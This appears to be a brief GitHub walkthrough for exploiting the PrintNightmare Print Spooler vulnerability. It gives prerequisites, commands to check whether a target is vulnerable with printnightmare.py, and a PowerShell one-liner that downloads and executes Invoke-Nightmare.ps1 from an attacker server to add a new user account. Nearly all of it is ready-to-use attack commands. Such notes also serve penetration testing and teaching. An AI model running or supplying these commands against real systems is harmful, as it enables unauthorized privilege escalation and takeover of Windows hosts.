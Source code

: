 # <h1 align="center" id="heading">PrintNightmare</h1>
There are some conditions that need to be met in order for this attack to be successful. The first and most important is that I have valid domain credentials to the system. Having domain credentials will allow me to remotely check to see if the system is vulnerable or not. The Print Spooler service also needs to be running on the target system in order for this attack to be successful. I can check to see if Print Spooler is available on the target system with the following PowerShell command:
```powershell
Get-Service -Name Spooler
```
If the service is accessible, I can run the following command from my Kali instance to check if the target is vulnerable or not:
```console
python3 printnightmare.py -check '<user>:<password>@<target ip>'
```
I can also list the available drivers with the following command. This step is optional!
```console
python3 printnightmare.py -list '<user>:<password>@<target ip>'
```
If the system is vulnerable, I can run the following PowerShell command to complete the exploit:
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<attacker server>/Invoke-Nightmare.ps1');Invoke-Nightmare -DriverName "Xerox" -NewUser "<username>" -NewPassword "<password>"
```
This is a quick and easy win if all of the right conditions are met within the target environment.
